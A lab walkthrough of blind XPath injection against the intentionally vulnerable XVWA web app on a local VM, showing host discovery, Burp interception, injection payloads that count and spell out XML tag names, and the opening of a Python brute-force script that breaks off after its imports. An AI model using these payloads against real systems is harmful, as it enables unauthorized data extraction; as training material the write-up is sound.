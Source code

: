 ```bash
arp-scan -I ens33 --localnet --ignoredups

ping -c 1 192.168.50.122
```

The machine is running and its IP is *192.168.50.122*.

## Exploiting vulnerability

To access the website that is sharing the service we must access *\http://192.168.50.122/xvwa*. Once inside, and to make sure that all the data is correct, click on *Setup / Reset* and then on *Submit / Reset*. Then, we click on *XPATH Injection* to start.

We are going to put in the search field "*1*" so that it filters us by the *coffee* with identifier "*1*" and we are going to pass this request by **BurpSuite**.

In this type of inputs we should test all types of injections, for example [[SQL Injections (SQLI)]] and [[NoSQL Injections]]. When testing these, we see that although they seem to work, they do not give us the relevant data and the query does not seem to work at all. It is then when we should test the *XPath Injections*.

The idea in an *XPath Injection* is to try to discover all existing tags in the target *XML*. The first thing is to find out how many "*primary*" *tags* there are.

```bash
# You must leave an open quotation mark so that the query itself closes it and is correct
# With these queries we are asking for the number of "primary" tags that the XML has, playing with whether it is equal to 5, less than 5, greater than 5, etc...
# If the query is correct, it will show the information, if not, it will not
search=1' and count(/*)='5&submit=
search=1' and count(/*)<'5&submit=
search=1' and count(/*)>'5&submit=
search=1' and count(/*)>='5&submit=
search=1' and count(/*)<='5&submit=
```

After checking the number of "*primary*" tags that the *XML* document has, we see that it is only *1*, so the next step would be to find out what is the *name* of that tag.

To find out what is the *name* of the label we must play with *substrings* as in [[NoSQL Injections]] to find out *character by character* the word:

```bash
# In this case we are telling it that inside the first label (expressed with [1]) we are going to keep the first character, and if this is "C", it will show us the information, if not, it will not
search=1' and substring(name(/*[1]), 1, 1)='C&submit=
```

With these concepts in mind, we can make a *Python* script to help us automate the *brute-force attack* by substituting character for character:

```python
#!/usr/bin/python3

import requests
import time
import sys
import string
import signal

from pwn import *

def def_handler(sig, frame):
    print("\n\n[!] Exiting...\n")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

```